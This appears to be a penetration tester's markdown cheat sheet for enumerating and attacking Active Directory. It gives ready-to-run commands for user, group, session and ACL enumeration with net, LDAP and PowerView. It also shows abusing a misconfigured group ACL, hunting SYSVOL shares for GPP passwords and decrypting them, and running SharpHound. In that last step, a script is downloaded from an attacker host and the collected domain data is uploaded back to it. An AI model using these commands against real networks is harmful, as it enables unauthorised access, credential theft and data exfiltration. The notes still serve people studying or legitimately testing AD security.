 # Active Directory

Connection: `xfreerdp /u:someuser /p:somepass /d:somedomain.com /v:$TargetIp`

## Native enumeration

```
net user /domain
net user someuser /domain
net group /domain
net group "Some Group With Whitespaces" /domain
```

Local admins (not Active Directory...):
```
net user some_hacked_user /all # for a single user 
net localgroup Administrators # to list local admins on this host
```

## Ldap enumeration

https://learn.microsoft.com/en-us/windows/win32/adschema/a-samaccounttype

```
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}
```
In a shell:
```
Import-Module .\myscript.ps1
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
LDAPSearch -LDAPQuery "(objectclass=group)"
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) { $group.properties | select {$_.cn}, {$_.member} }
$group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Development Depart*))"
$group.properties.member
```

## Powerview

Main functions: https://powersploit.readthedocs.io/en/latest/Recon/
- `Get-Domain` - returns the domain object for the current (or specified) domain
- `Get-DomainUser` - return all users or specific user objects in AD
- `Get-DomainGroup` - return all groups or specific group objects in AD
- `Get-DomainComputer` - returns all computers or specific computer objects in AD
- `Get-NetSession` - returns session information for the local (or a remote) machine
- `Find-LocalAdminAccess` - finds machines on the local domain where the current user has local administrator access

### Users and groups

```
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn
Get-NetGroup "Some Department" | select member
```

### Operating System

```
Get-NetComputer
Get-NetComputer | select operatingsystem, dnshostname
```

### Permissions and logged users

Tools:
- PowerView
- PsLoggedOn ([Sysinternals](https://learn.microsoft.com/en-us/sysinternals/)): https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon

```
Find-LocalAdminAccess # from PowerView.ps1
Get-NetSession -ComputerName somehostname
Get-NetSession -ComputerName somehostname -Verbose
Get-Acl -Path HKLM:System\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | format-list
C:\PSTools\PsLoggedon.exe \\somehostname
```
Warning: PsLoggedon.exe needs the service `Remote Registry` on the target

### Service accounts

```
cmd > setspn -L some_service
PS > Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

### Object permissions

```
Get-ObjectAcl -Identity someuser
Convert-SidToName S-1-5-21-domainidentifiernumber-relativeidentifier
Get-ObjectAcl -Identity "Some Departm*" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"sid1", "sid2", "sid3" | convert-sidtoname
```
Example of misconfiguration:
```
net group "Misconfigured Department" alreadyhackeduser /add /domain
Get-NetGroup "Mis*Dep*" | select member
net group "Misconfigured Department" hackeduser /del /domain # cleanup and check
Get-NetGroup "Mis*Dep*" | select member
```
Known IDs: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers \
Abuse AD ACLs: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse

### Domain shares

Password and hash searches in network shares:
```
> Find-DomainShare
> ls \\pc.domain.com\sysvol\domain.com
> ls \\pc.domain.com\sysvol\domain.com\Policies
> cat \\pc.domain.com\sysvol\domain.com\Policies\suspicious-policy-file.xml
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork\directory-with-secret-files
```
Example of password decryption:
```
kali$ gpp-decrypt "string-found-in-some-password-file"
```
Sysvol: https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx

## Automated AD enumeration

### SharpHound

In powershell
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$AttackerIp/SharpHound.ps1', 'SharpHound.ps1')
powershell -ep bypass
Import-Module c:\path\to\Sharphound.ps1
# Get-Help Invoke-BloodHound
Invoke-BloodHound -CollectionMethod All -OutputDirectory c:\Users\hackeduser\Desktop -OutputPrefix "some_file_prefix"
ls c:\Users\hackeduser\Desktop
powershell (New-Object System.Net.WebClient).UploadFile('http://$AttackerIp/uploadForWindows.php', 'some_file_prefix_abc123.zip')
```

### BloodHound

```
sudo apt install neo4j
sudo apt install bloodhound
sudo neo4j start
bloodhound > upload data > more info > analysis > find shortest paths to domain admins
```

Custom queries: https://neo4j.com/developer/cypher/
